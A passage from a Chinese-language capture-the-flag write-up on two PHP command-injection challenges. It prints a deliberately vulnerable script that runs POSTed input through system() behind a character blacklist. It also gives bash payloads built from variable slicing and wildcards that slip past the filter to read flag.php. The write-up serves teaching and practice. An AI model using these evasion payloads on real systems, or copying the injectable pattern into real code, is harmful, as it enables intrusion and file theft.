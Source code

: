 这题SHLVL被ban了，可以用?代替

${#?}=1

payload

```
${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
```

或

```
${PWD::${#?}}???${PWD::${#?}}${PWD::${#?}}?? ????.???
/bin/rev
```

rev是倒叙输出的



#### web122

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

这题把PWD和#也ban掉了

可以考虑用$?来代替${#1}

$?是表示上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误

所以我们可以构造payload:

```
<A;${HOME::$?}???${HOME::$?}????${RANDOM::$?}? ????.??? 
```
